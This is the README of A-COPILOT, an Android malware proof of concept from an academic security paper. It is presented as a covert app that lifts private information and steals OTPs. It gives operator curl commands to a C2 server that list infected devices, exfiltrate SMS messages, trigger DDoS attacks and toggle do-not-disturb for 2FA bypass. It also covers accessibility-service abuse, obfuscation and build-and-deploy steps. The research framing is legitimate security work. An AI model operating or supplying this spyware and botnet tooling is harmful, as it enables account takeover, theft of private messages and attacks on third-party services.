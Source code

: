 
# A-COPILOT: Android Covert Operation for Private Information Lifting and OTP Theft


## Abstract

A-COPILOT is an Android application designed to explore covert operations for lifting private information and stealing One-Time Passwords (OTPs). This proof-of-concept (PoC) app demonstrates how malware can masquerade as legitimate applications to compromise security and privacy. The app leverages accessibility features and runtime permissions to conduct unauthorized activities stealthily.
## Security Features

### 1. Command and Control (C2)
- **Description:** The C2 component enables centralized control of compromised devices, allowing remote execution of commands and monitoring.
- **Setup:** The C2 server is set up using Python and Flask. Devices automatically connect and register with the C2 server upon app launch.

### 2. Auto-Granting Runtime Permissions via Accessibility Service
- **Description:** A-COPILOT exploits accessibility services to automatically grant itself necessary permissions without user interaction, facilitating covert operations.
- **Setup:** Run the app and enable accessibility services to initiate auto-granting of permissions.

### 3. Botnet Registration
- **Description:** Devices running A-COPILOT register with a central C2 server, allowing for remote control and monitoring.
- **Setup:** The registration occurs automatically upon app launch, creating a unique UUID for each device.

### 4. WebSocket Connection Establishment
- **Description:** Establishes a secure WebSocket connection for real-time communication between the app and the C2 server.
- **Command:** WebSocket connections are established automatically. Use `curl.exe -X POST "http://<server_ip>:8000/list_devices" -H "Content-Type: text/plain" -d '!@#$QWER'` to list connected devices.

### 5. SMS Exfiltration
- **Description:** A-COPILOT reads and exfiltrates SMS messages from the device to the C2 server.
- **Command:** Initiate SMS exfiltration with `curl.exe -X POST "http://<server_ip>:8000/list_received_sms" -H "Content-Type: application/json" -d '{"password": "!@#$QWER"}'`.

### 6. Distributed Denial of Service (DDoS)
- **Description:** The app can launch DDoS attacks on specified targets by sending numerous HTTP requests.
- **Command:** Start a DDoS attack using `curl.exe -X POST "http://<server_ip>:8000/trigger_ddos" -H "Content-Type: application/json" -d '{"url": "http://example.com", "password": "!@#$QWER"}'`

### 7. Hash Cracking
- **Description:** A-COPILOT includes functionality to crack hashed passwords using an embedded wordlist.
- **Command:** Perform hash cracking with `curl.exe -X POST "http://<server_ip>:8000/submit_salt_and_hash" -H "Content-Type: application/json" -d '{"salt": "65e84be33532fb784c48129675f9eff3a682b27168c0ea744b2cf58ee02337c5", "salted_hash": "37aa4c4d546adb02615b6e867cd5afe399437edc300dff07fc8f0a94a502ed51", "password": "!@#$QWER"}'`

### 8. Account Compromise POC
- **Description:** Demonstrates a Proof-of-Concept for compromising user accounts by keylogging credentials and bypassing 2FA.
- **Command:** Use the sequence of commands to simulate the attack:
    - **Query device state:** `curl.exe -X POST "http://<server_ip>:8000/query_power" -H "Content-Type: text/plain" -d '!@#$QWER'`
    - **Toggle DND:** `curl.exe -X POST "http://<server_ip>:8000/send_event_unicast" -H "Content-Type: application/json" -d '{"password": "!@#$QWER", "event": "dndOn", "uuid": "<device_uuid>"}'`
    - **Steal OTP:** Upon receiving the OTP via SMS, it will be exfiltrated automatically.

### 9. Obfuscation & Detection
- **Description:** A-COPILOT employs various obfuscation techniques to hinder reverse engineering and enhance security.
- **Techniques:** Includes string obfuscation, control flow obfuscation, and detection mechanisms for emulators and rooted devices.
## Installation and Setup
### Prerequisites
- Android Studio
- Python (for running the C2 server)
- Network configuration to allow traffic on the relevant ports

### Steps to Install
#### 1. Clone the Repository:
- `git clone https://github.com/samuelsongg/A-COPILOT.git`

#### 2. Open in Android Studio:
- Import the project and Sync with Gradle.

#### 3. Ensure all API keys have been replaced in:
- `app/src/main/java/com/mobilesec/govcomm/mal/Aes.kt`
- `app/src/main/java/com/mobilesec/govcomm/mal/SecurityUtils.kt`
- `app/src/main/java/com/mobilesec/govcomm/mal/GovcommAccessibilityService.kt`
- `app/src/main/java/com/mobilesec/govcomm/ui/screens/teamchat/TeamChatScreen.kt`
- `app/google-services.json`
- `c2_server/c2_server.py`

#### 4. Build the APK:
- Use the release variant to apply Proguard obsfucation.

#### 5. Deploy the APK:
- Install on the test devices.

### Setting Up the C2 server
If running locally on the machine, ensure that the IP address in the source code has been changed to the IP address of the machine running the C2 server, and instead of configuring Network Security Group to allow for Port TCP/8000, apply the necessary firewall configurations to your local machine.

#### 1. Install Dependencies:
- `pip install -r requirements.txt`

#### 2. Run the Server:
- `python3 c2_server.py`
## DOI and Citation

For an in-depth exploration of A-COPILOT's security features and its implications, refer to:

- Citation: Joseph Guan Quan Lim, Zhen Yu Kwok, Isaac Soon, Jun Xian Yong, Samuel Song Yuhao, Siti Halilah Binte Rosley, and Vivek Balachandran. 2024. "A-COPILOT: Android Covert Operation for Private Information Lifting and OTP Theft." ACM Conference on Data and Application Security and Privacy (CODASPY’24), Porto, Portugal. DOI: [10.1145/3626232.3658638](https://doi.org/10.1145/3626232.3658638)
## Disclaimer
A-COPILOT is developed strictly for educational purposes to demonstrate potential security vulnerabilities in Android applications. This application should not be used for any malicious or illegal activities. The authors and contributors of A-COPILOT do not take any responsibility for any misuse of the application or its features. By using this application, you agree to take full responsibility for your actions and to comply with all applicable laws and regulations.